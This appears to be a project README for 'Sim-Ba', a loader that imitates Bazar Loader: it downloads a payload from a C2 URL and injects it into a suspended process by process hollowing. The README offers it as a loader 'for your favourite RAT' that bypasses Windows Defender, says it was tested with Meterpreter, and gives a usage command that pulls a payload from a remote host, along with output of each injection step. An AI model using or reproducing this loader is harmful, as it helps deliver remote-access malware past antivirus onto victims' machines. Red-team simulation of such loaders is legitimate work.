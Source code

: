 # sim-ba
(Sim)ulate (Ba)zar Loader

## Introduction
Sim-Ba is an in-memory PE Loader designed to simulate the behaviour of Bazar Loader. It downloads the payload from C2 URL and uses Process Hollowing method to inject downloaded PE into the new process created in suspended state. Process Hollowing is already a well-known and commonly used injection [technique](https://attack.mitre.org/techniques/T1055/012/) by malware developers. Sim-Ba is a modified version of another Process Hollowing repository: [idan1288/ProcessHollowing32-64](https://github.com/idan1288/ProcessHollowing32-64) 

## Defender Bypass
Sim-Ba can be used as the loader for your favourite RAT. I tested with Meterpreter on updated Win10 (15.11.2020). 

## Usage
```shell
.\sim-ba.exe [Target executable] [Payload URL]

.\sim-ba.exe C:\Windows\system32\cmd.exe https://192.168.56.101/notdetected

[+] Running the target executable.
[+] Process created in suspended state.
[+] Connecting to URL for downloading payload
[*] Connecting using HTTPS
[*] Ignoring SSL Certificate Error
[+] Allocating memory in child process.
[*] Memory allocated. Address: 0x140000000
[+] Writing executable image into child process.
[*] New entry point: 0x140004000
[+] Setting the context of the child process's primary thread.
[+] Resuming child process's primary thread.
[+] Thread resumed.
```
